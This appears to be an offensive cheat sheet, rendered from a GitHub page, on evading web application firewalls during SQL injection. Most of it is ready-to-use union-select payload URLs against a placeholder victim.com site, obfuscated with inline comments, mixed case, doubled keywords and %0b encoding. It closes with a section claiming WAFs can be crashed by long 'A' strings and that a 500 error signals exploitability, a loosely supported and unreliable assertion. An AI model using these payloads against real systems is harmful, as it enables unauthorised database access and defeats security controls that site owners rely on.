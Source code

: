 ## Bypass with Comments

SQL comments allow us to bypass a lot of filtering and WAFs.

```
 Code :
 http://victim.com/news.php?id=1+un/**/ion+se/**/lect+1,2,3--

```

## Case Changing

Some WAFs filter only lowercase SQL keyword.

Regex Filter: /union\\sselect/g

    http://victim.com/news.php?id=1+UnIoN/**/SeLecT/**/1,2,3--

## Replaced Keywords

Some application and WAFs use preg_replace to remove all SQL keyword.
So we can bypass easily.

    http://victim.com/news.php?id=1+UNunionION+SEselectLECT+1,2,3--

Some case SQL keyword was filtered out and replaced with whitespace. So
we can use "%0b" to bypass.

    http://victim.com/news.php?id=1+uni%0bon+se%0blect+1,2,3--

For Mod_rewrite, Comments "/\*\*/" cannot bypassed. So we use "%0b"
replace "/\*\*/".

    Forbidden: http://victim.com/main/news/id/1/**/
    |
    |/**/lpad(first_name,7,1).html
    Bypassed : http://victim.com/main/news/id/1%0b
    |
    |%0blpad(first_name,7,1).html

## Advanced Methods

Crash Firewall via doing Buffer Over Flow.

1\) Buffer Overflow / Firewall Crash: Many Firewalls are developed in
C/C++ and we can Crash them using Buffer Overflow.

```
    http://www.site.com/index.php?page_id=-15+and+(select 1)=(Select 0xAA[..(add about 1000 “A”)..])+/*!uNIOn*/+/*!SeLECt*/+1,2,3,4….

    You can test if the WAF can be crashed by typing:
    ?page_id=null%0A/**//*!50000%55nIOn*//*yoyu*/all/**/%0A/*!%53eLEct*/%0A/*nnaa*/+1,2,3,4….

    If you get a 500, you can exploit it using the Buffer Overflow Method.
```

